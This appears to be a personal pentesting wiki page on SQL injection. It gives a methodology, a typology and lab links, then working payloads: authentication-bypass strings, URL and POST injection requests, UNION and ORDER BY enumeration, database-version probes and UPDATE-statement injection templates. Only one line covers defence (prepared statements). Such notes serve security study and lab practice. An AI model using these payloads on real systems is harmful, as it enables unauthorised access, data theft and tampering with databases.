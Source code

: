# SQLInjection

## Introduction

SQL injection is a technique used by attacked to execute malicious SQL statements with objective of stealing information, modifying the database or command execution from the context of database interacting with other networked components. Application commonly require dynamic SQL queries to display content conditionally by user context. Users are then granted some part in the process of displaying that content. This input without input sanitization the attacker can make the database interpret the user input as an SQL input instead of data. With parameter control attack can inject malicious query, which may be executed by the database. For introductory material about SQL see [[Introduction-to-SQL]], if you just here for [[SQLmap-CheatSheet]] then follow the latter link.

For possibly the best hand-on-lab on the internet see [TryHackMe SLQinjections Labs room](https://tryhackme.com/room/sqlilab), it has a good curve to the challenges and has a guidance feature so that in browser you can see what SQL quiery you sent. 

Invaluable Payload up-to-date paylaod listings can be found:
[payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list
[PayloadsAllTheThings/](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

An ode to SQLI:
```poem
title: Sleepy-Questions-Language-Idea 'behind attack=attack -- - 

sqlin' da morning 
sqlin' your evening
admin or one plus one equals two
single quote for strings
enum db char-by-char for those correct
tingles as the database query dumps things
comments breaking stuff on internet
admin password from table * select
database asleep pleasing
SELECT star FROM passwords stealing
by 7ru7h
```


## Methodology
Indication of vulnerablity: 
- variations with use of  `'` which used a string delimiter. 

Databases require instructional commands to store, organise and interact with data. 
1. The requirement is to inject maliformed SQL queries to break the query syntax through a logical mechanism and the sql parser's interpretation of characters external usage in token classification.  
	- The `-` comment  character is recognised as a break from a functionality to interact with database. 
	- Or `'` to indicate the opening of string declaration. The paring functions to consider the following set of character as string continously until otherwise stated. 
2. In breaking the query, access to debug messages or likewise indicated through commanding the server to delay its subsequent response demonstrating control of the server. 
3. If it will `sleep` because a malicious query states such for a specified length of time 
	- Then query may be transformed to the fix its breakage of syntax to 
		- Then query actual information on the database. 
			- [[FFUF-Cheatsheet]] maybe useful in fuzzing fields of the database.
		- Or use the system hosting the database to use the database as storage for further movement with commands to code excution. 

## Use cases for SQLi 

1. Authentication Bypass
1. Enumerating a Database `SELECT <field>, <field> FROM <table> WHERE <field>=`
	1. Column Number Enumeration - With column names or the column indexes instruct database to sort by either, to figure out the width:
		`http://url/bad.ext?<field>=1 order by 1`
	1. Detirmine Output layout - Union statement to control display, for meanful Data extraction
		`union all select 1, 2, <nth, column, width, delimitered, with , comma>`
1. Data Extraction
1. SQLi to Code Execution


#### Characters, Command and Considerations toolset
Always consider the syntax and Database Lanaguage!
MariaDB specifics, but for extensive information for see [[MariaDB-Hacking]]
```sql
;#	-- Ends querys
LIMIT 1	-- Limit number of records returned
```

MSSQL specifics, but for extensive information for see [[MSSQL-Hacking]] 
```mssql

```

MySQL specifics, but for extensive information for see [[MySQL-Cheatsheet]] [[MySQL-SQLI]]
```sql

```

sqlite specifics, but for extensive information for see [[SQLite-Hacking]] [[SQLite-Cheatsheet]]
```sql

```






## Database type enumeration
```sql
MySQL and MSSQL
',INPUT=@@version,INPUT='
# Oracle
',INPUT=(SELECT banner FROM v$version),email='
# For SQLite
',INPUT=sqlite_version(),INPUT='
```

## Defense and Migitation
[Prepared Statements prevent 'illegal' queries](https://en.wikipedia.org/wiki/Prepared_statement)

## Typology 

Attack Vector | Method 
--- | ---
Blind SQLi | Cause SQL error -> Fix it -> add SQL queries && Use sleep(5) if reponse is instant SQL query, then there is no SQLi
Union SQLi |  Find number of columns -> Check suitable columns -> Attack
With non Blind SQLi there is some form of extracted data:
- Cookies
- Field Display in HTML

**BEWARE** Boolean-based Blind injections are tedious and time-consuming, use fuzzing or script


## Attack Vectors

#### Input Boxes 

Input Box Non-String - Parameter expects an integer
```sql
1 or 1=1-- -
```

Input Box String- Parameter expects a string
```sql
admin' or '1'='1'-- -
```

#### URL and POST Injection
Consider
```javascript
// Client side controls
function validateform() {
    var profileID = document.inputForm.profileID.value;
    var password = document.inputForm.password.value;

    if (/^[a-zA-Z0-9]*$/.test(profileID) == false || /^[a-zA-Z0-9]*$/.test(password) == false) {
        alert("The input fields cannot contain special characters");
        return false;
    }
    if (profileID == null || password == null) {
        alert("The input fields cannot be empty.");
        return false;
    }
}
```

URL Injection - URL bar in Browser!
```html
<!-- URL shows URL parameters -->
http://website/login?profileID=a&password=a 
<!-- Client Validation bypass, by going directly to URL  -->
http://website/login?profileID=-1' or 1=1-- -&password=a
<!-- URL encode -->
http://website/login?profileID=-1%27%20or%201=1--%20-&password=a 
```

POST Injection - POST request has data 
```html
POST /login <!-- POST request -->
Host: website
...
Referer: website
<!-- Newline goes here, below is the data -->
profileID=-1' or 1=1-- -&password=a
```

#### UPDATE statement
SQLi on UPDATE can modify database **BEWARE**
```html
<!-- html form -->
<input type="text" class="form-control" placeholder "Username" id="username" value="">
...
<input type="text" class="form-control" placeholder "Email" id="email" value="">
...
<input type="text" class="form-control" placeholder "Password" id="password" value="">
```

Enumerate with:
```sql
-- BEWARE this is a template for the above not a payload
-- consider what information the database to frontend pipeline displays
asd',username='test',email='hacked
-- Enumeration is done to gather information of:
-- Correct column names; some might not be visuable, if wrong column names it wont update
-- Then we use these columns to get data back from the database inplace of intend information
-- MySQL and MSSQL
',username=@@version,email='
-- For Oracle
',username=(SELECT banner FROM v$version),email='
-- For SQLite
',username=sqlite_version(),email='
-- Then use targeted database's SQL variant -> tablename -> target table's fields -> data
```



## References
[Prepared Statements Wiki](https://en.wikipedia.org/wiki/Prepared_statement)
[TryHackMe SLQinjections Labs room](https://tryhackme.com/room/sqlilab)
[Computerphile Video](https://www.youtube.com/watch?v=ciNHn38EyRc)
[payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list
[PayloadsAllTheThings/](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
